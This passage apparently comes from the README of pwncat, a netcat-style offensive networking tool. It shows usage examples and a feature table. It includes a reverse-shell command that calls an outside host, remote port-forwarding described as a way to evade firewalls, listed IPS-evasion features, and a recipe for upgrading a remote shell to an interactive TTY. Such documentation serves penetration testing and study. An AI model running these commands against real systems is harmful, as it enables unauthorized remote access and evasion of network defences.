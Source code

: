 ```bash
# reverse shell
pwncat -e '/bin/bash' example.com 4444
```
#### Port-forwarding without SSH
```bash
# Make local port available to public interface locally
pwncat -L 127.0.0.1:3306 192.168.0.1 3306
```
```bash
# Remote port-forwarding to evade firewalls
pwncat -R 127.0.0.1:3306 example.com 4444
```


## :star: Features

`pwncat` has many features, below is only a list of outstanding characteristics.

| Feature        | Description |
|----------------|-------------|
| Bind shell     | Create bind shells |
| Reverse shell  | Create reverse shells |
| Proxy          | Local and remote port forwards without SSH |
| Ctrl+c protect | Reverse shell can reconnect if you accidentally hit Ctrl+c |
| Detect Egress  | Scan and report open egress ports on the target |
| Evade FW       | Evade egress firewalls by round-robin outgoing ports |
| Evade IPS      | Evade Intrusion Prevention Systems by being able to round-robin outgoing ports on connection interrupts |
| UDP rev shell  | Try this with the traditional `netcat` |
| TCP / UDP      | Full TCP and UDP support |
| Python 2+3     | Works with Python 2 and Python 3 |
| Cross OS       | Should work on Linux, MacOS and Windows as long as Python is available |
| Compatability  | Use the traditional `netcat` as a client or server together with `pwncat` |


## :dizzy: Upgrade your shell

When connected to a remote or bind shell you'll notice that no interactive commands will work and
accidentally hitting <kbd>Ctrl</kbd>+<kbd>c</kbd> will terminate your connection.
To fix this, you'll need to attach it to a TTY. Here's how:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
<kbd>Ctrl</kbd>+<kbd>z</kbd>
```bash
stty size
stty echo -raw
fg
reset
export SHELL=bash
export TERM=xterm
stty rows <num> columns <num>   # values found above by 'stty size'
```
